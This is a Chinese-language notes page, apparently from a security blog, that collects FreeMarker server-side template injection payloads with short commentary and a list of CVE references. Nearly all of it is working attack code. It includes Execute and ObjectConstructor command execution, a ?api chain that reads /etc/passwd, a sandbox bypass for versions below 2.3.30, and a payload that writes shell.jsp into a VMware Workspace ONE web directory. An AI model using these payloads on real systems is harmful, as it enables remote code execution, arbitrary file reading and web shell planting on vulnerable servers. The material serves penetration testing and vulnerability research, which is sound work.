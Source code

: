 ```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ipconfig") }

${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","cmd","/c","ipconfig", ">", "D:/test/ipconfig.txt").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>    // 依赖org.python.util.PythonInterpreter(org.python:jython-standalone)
```

还有一个payload:
> value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

```java
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

不过可能报错：
```
freemarker.core._MiscTemplateException: Can't use ?api, because the "api_builtin_enabled" configuration setting is false.
```

### 2.3.30以下的sanbox bypass
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

还有一个来自y4er:
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileOutputStream","/opt/vmware/horizon/workspace/webapps/catalog-portal/shell.jsp").write("freemarker.template.utility.ObjectConstructor"?new()("java.lang.String","test").getBytes())}
```
根据这个修改一个freemarker的回显方式：
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner", "freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder", "cmd", "/c", "ipconfig").start().getInputStream()).useDelimiter("\\A").next()}
```

### Ref
- https://www.cnblogs.com/nice0e3/p/16217471.html
- [服务器端模版注入SSTI分析与归纳](https://tttang.com/archive/1412/)
- [Apache Axis1（<=1.4版本） RCE](https://xz.aliyun.com/t/5513)
- [【最新漏洞预警】CVE-2022-22954 VMware Workspace ONE Access SSTI漏洞](https://mp.weixin.qq.com/s/X_E0zWONLVUQcgP6nZ78Mw)
- https://sp4zcmd.github.io/2021/09/01/FreeMarker%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/#CVE-2019-9614
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker
- [CVE-2021-46361: FreeMarker Restriction Bypass in Magnolia CMS](https://github.com/DrunkenShells/Disclosures/blob/afbd8cba88b17b749776747b6297d42963e93c3e/CVE-2021-46361-FreeMarker%20Bypass-Magnolia%20CMS/README.md)
- [CVE-2021-46362: Unauthenticated SSTI in Magnolia CMS](https://github.com/DrunkenShells/Disclosures/blob/afbd8cba88b17b749776747b6297d42963e93c3e/CVE-2021-46362-Unauthenticated%20SSTI-Magnolia%20CMS/README.md)
- https://jira.magnolia-cms.com/browse/BUILD-541

